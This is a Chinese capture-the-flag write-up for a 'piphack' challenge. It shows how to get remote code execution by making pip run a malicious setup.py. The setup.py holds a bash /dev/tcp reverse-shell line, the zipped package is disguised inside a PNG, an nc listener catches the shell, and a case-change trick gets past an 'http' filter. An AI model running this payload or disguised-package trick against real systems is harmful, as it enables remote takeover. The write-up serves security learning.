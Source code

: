 **题目描述**

​    ![image-20240220161015678](./img/piphack/image-20240220161015678.png)

根据搜索该题为RCE漏洞的利用，本题的主要原理就是pip在下载包以后，会自动进行解压然后执行setup.py文件，那么可以人为构造一个带有恶意代码的setup.py文件，然后把该文件压缩，和png图片合在一起上传至公网服务器上，当题目执行pip安装包时，会触发我们自己构建的setup.py文件中的代码。

解题需求：要求一台具有稳定ipv4地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立tcp连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
# 解释：
# bash -c  "cmd string"  接的是shell命令字符串，用引号括起来，运行后面的命令；
# bash -i 创建一个交互式bash进程
# >&    将标准输入和标准错误输出重定向到文件/dev/tcp/自己服务器IP地址/端口号;
# /dev/tcp/自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个socket调用，建立一个socket连接;
# 0>&1 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
# 注意服务器的端口一定要是开放的
```



将上面的代码放入setup.py中，然后创建一个文件夹（名字英文任取），将setup.py放入文件夹，然后压缩文件夹，得到文件夹.zip

3、在windows电脑的cmd窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、现在服务器上使用nc命令监听端口（至于为什么是nc。。咳咳）

```shell
sudo nc -lvn 端口
```

![image-20240220161135499](./img/piphack/image-20240220161135499.png)

2、然后用nc连接题目给出的地址

![image-20240220161139217](./img/piphack/image-20240220161139217.png)

这里发现题目过滤了http，尝试使用Http绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最总发现flag：flag{a262d436-704d-402b-881d-c487d7cf945f}

![image-20240220161144411](./img/piphack/image-20240220161144411.png)

